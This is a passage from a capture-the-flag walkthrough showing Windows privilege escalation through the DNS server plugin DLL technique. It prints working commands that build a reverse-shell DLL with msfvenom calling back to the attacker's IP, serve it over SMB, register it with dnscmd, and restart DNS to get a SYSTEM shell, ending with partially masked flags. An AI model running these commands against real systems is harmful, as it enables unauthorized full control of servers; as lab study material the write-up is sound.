 First we need to create an malicious **.dll** file using **msfvenom** and then host it on SMB server. I tired to upload it on the box, but some kind of defense mechanism blocking it.

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f dll > exploit.dll

$ smbserver.py -smb2support share ./
```

<img alt="Pasted image 20240729045502" src="https://github.com/user-attachments/assets/4de6ed1f-4d00-4ef3-8baa-a62f20557c18">

Once SMB server is up and running, the following command can be used to register the DLL. Start a netcat listener on you machine and use **net** command to restart the dns service.

```bash
$ cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.16.8\share\exploit.dll

$ net stop dns /y
$ net start dns /y
```

<img  alt="Pasted image 20240729050026" src="https://github.com/user-attachments/assets/248519bd-c87b-47a3-9e87-7a4db6e311b4">

Once the DNS service restart, we can see we got shell as **nt authority\system**

<img alt="Pasted image 20240729050054" src="https://github.com/user-attachments/assets/8731dc29-64aa-4647-bd5c-467534425e01">

# Flags

User : d9bce784c335e......9aefe6a0a8173

Root : 4d82dbba1325.......071f17898d8cff

# Happy Hacking ❤
